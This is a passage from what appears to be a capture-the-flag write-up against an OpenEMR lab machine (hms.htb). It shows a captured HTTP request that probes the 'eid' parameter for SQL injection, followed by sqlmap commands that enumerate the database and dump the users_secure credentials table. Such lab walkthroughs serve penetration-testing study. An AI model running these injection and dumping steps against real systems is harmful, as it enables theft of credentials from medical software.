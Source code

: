 The result means that the **"eid"** parameter might be injectable. We must capture the request sent with **`Burp Suite`** and use it to test SQL injections with **`sqlmap`**. The captured request is :

~~~
GET /portal/add_edit_event_user.php?eid=1%27 HTTP/1.1
Host: hms.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: OpenEMR=dj35b2jbhudt3frlib1fjd7jku; PHPSESSID=qit8qsffamvgj8cpkhf3dhue15
Upgrade-Insecure-Requests: 1
~~~

We save it in a file **"openemr.req"** and use it with SQLmap. You can perform a whole sqlmap sequences of injections to get first the database name, then the tables, and finally the credentials:

~~~
1. Database:   
   root@kali:~# sqlmap -r openemr.req --dbs
2. Tables:
   root@kali:~# sqlmap -r openemr.req --threads=10 -D openemr --tables
3.Credentials
   root@kali:~# sqlmap -r openemr.req -D openemr -T users_secure --dump
~~~

Actually, we found in [https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69](https://medium.com/@musyokaian/openemr-version-5-0-1-remote-code-execution-vulnerability-2f8fd8644a69), that the table **`users_secure`** contains the credentials. So you only need to run this one:

![sqlmap1.png](images/sqlmap1.png)